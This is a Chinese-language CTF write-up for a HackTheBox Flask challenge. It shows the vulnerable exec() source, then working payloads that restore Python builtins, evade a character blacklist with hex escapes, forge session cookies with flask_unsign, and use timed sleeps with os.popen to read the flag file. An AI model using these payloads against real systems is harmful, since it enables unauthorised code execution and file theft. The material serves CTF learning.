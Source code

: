 ## 分析

从`html`源码中可以看到`debug`路径，从而得到源码

```python
def calc(recipe):
    global garage
    builtins, garage = {'__builtins__': None}, {}       # exec 的默认__builtins__ 设置为空
    try: exec(recipe, builtins, garage)
    except: pass

def GFW(func): # Great Firewall of the observable universe and it's infinite timelines
    @functools.wraps(func)
    def federation(*args, **kwargs):
        ingredient = session.get('ingredient', None)
        measurements = session.get('measurements', None)

        recipe = '%s = %s' % (ingredient, measurements)
        if ingredient and measurements and len(recipe) >= 20:
            regex = re.compile('|'.join(map(re.escape, ['[', '(', '_', '.'])))      # 过滤 [ ( _ . 四个字符
            matches = regex.findall(recipe)
            
            if matches:
                return render_template('index.html', blacklisted='Morty you dumbass: ' + ', '.join(set(matches)))
            
            if len(recipe) > 300: 
                return func(*args, **kwargs) # ionic defibulizer can't handle more bytes than that
            
            calc(recipe)    # 然后把字符传入calc函数
            # return render_template('index.html', calculations=garage[ingredient])
            return func(*args, **kwargs) # rick deterrent

        ingredient = session['ingredient'] = ''.join(random.choice(string.lowercase) for _ in xrange(10))
        measurements = session['measurements'] = ''.join(map(str, [random.randint(1, 69), random.choice(['+', '-', '*']), random.randint(1,69)]))

        calc('%s = %s' % (ingredient, measurements))
        return render_template('index.html', calculations=garage[ingredient])
    return federation
```

从上面的代码可以分析得到，会获取`session`的值然后交给`exec`来执行

因为`exec`的内置`__builtins__`设置为空了，首先我们需要的就是恢复`__builtins__`

```python
__builtins__ = [t for t in ().__class__.__bases__[0].__subclasses__() if 'warning' in t.__name__][0]()._module.__builtins__     # python2
__builtins__ = [t for t in ().__class__.__base__.__subclasses__() if t.__name__ == 'Sized'][0].__len__.__globals__['__builtins__']  # python3
```

接着就是要绕过正则表达式，在`python`中`\x12`这样的`16`进制可以表示字符，所以我们只需要对过滤的字符进行替换即可，同时需要注意`\n`也要进行替换，这样在内部的`exec`中才能够正确识别

```python
payload = payload.replace('(', r'\x28').replace('[', r'\x5b').replace('.', r'\x2e').replace('_', r'\x5f').replace('\n', r'\n')

>>> s = "[(_."
>>> s = s.replace('(', r'\x28').replace('[', r'\x5b').replace('.', r'\x2e').replace('_', r'\x5f').replace('\n', r'\n')
>>> s
'\\x5b\\x28\\x5f\\x2e'
>>> exec "print('\\x5b\\x28\\x5f\\x2e')"
[(_.
```

本来打算覆盖`garage[ingredient]`变量来输出结果，但是没能成功，不过可以通过`time.sleep()`函数来执行类似盲注一样的操作

构造`session`的代码如下

```python
sess['ingredient'] = "a"
sess['measurements'] = "1\n%s" % cmd
cmd = "payload"
recipe = sess['ingredient'] + " = " + sess['measurements']
cookie = flask_unsign.sign(sess, secret)    # 使用 flask_unsign 来生成 flask session

```
下面只对`cmd`部分进行修改

1\. 首先获取当前目录下的文件数量

```python
cmd = '''exec "i=().__class__.__base__.__subclasses__()[59]()._module.__builtins__['__import__']
if i('os').listdir('.').__len__()==%d: i('time').sleep(4)"''' % num

# 3
```

2\. 然后获取每个文件名的长度

```python
cmd = '''exec "i=().__class__.__base__.__subclasses__()[59]()._module.__builtins__['__import__']
if i('os').listdir('.')[%d].__len__()==%d: i('time').sleep(4)"''' % (i, num)

# 6, 34, 9
```

3\. 获取每个文件的文件名，这里只读取了长度为`34`的文件名

```python
cmd = '''exec "i=().__class__.__base__.__subclasses__()[59]()._module.__builtins__['__import__']
if i('os').listdir('.')[1][%d]=='%s': i('time').sleep(4)"''' % (i, s)

# totally_******************_flaaaaag
```

4\. 获取该文件内容的长度

```python
cmd = '''exec "i=().__class__.__base__.__subclasses__()[59]()._module.__builtins__['__import__']
if i('os').popen('cat to*').read().__len__()==%d: i('time').sleep(4)"''' % num

# 51
```

5\. 获取文件内容
```python
cmd = '''exec "i=().__class__.__base__.__subclasses__()[59]()._module.__builtins__['__import__']
if i('os').popen('cat to*').read()[%d]=='%s': i('time').sleep(4)"''' % (i, s)

# HTB{d1d_y0u_****************_m4tt3r?!}
```


## 参考文档

[https://stackoverflow.com/questions/13307110/can-you-recover-from-reassigning-builtins-in-python#13307417](https://stackoverflow.com/questions/13307110/can-you-recover-from-reassigning-builtins-in-python#13307417)

[https://www.freebuf.com/articles/web/246997.html](https://www.freebuf.com/articles/web/246997.html)